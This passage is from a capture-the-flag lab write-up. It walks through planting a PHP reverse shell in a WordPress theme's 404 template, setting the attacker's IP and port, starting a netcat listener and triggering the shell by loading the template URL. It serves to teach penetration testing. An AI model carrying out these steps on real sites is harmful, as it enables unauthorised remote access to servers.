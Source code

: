 Now, we can paste the code of a reverse shell in one of the template on the side. Choosing the `404 Template` under the `Twenty Fifteen` selector.

![](./screenshots/robot-13.png)

Here we can paste the reverse shell code. Using the `/usr/share/webshells/php/php-reverse-shell.php`, and then changing the `IP` and `PORT` to those of our attacking machine.
- This is what the reverse shell will connect back to. Are found at lines 49 and 50.

```php
$ip = '10.2.73.192';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
```

After that, we paste the entire `PHP` file in the editor in the webpage above, and then press on `update file` at the bottom to save our changes.

> Now, we need to setup a listener on our attacking machine. Do that using `netcat`. Use the same port as the one set in the reverse shell code.

```bash
nc -nlvp 4444
```

> Now, we can open the reverse shell by heading to the following URL that opens one of the templates we have pasted the malicious code in.
 
```
http://10.10.119.163/wp-content/themes/twentyfifteen/404.php
```
- It is in `/wp-content`, followed by the value chosen from the selector, followed by the name of the template.

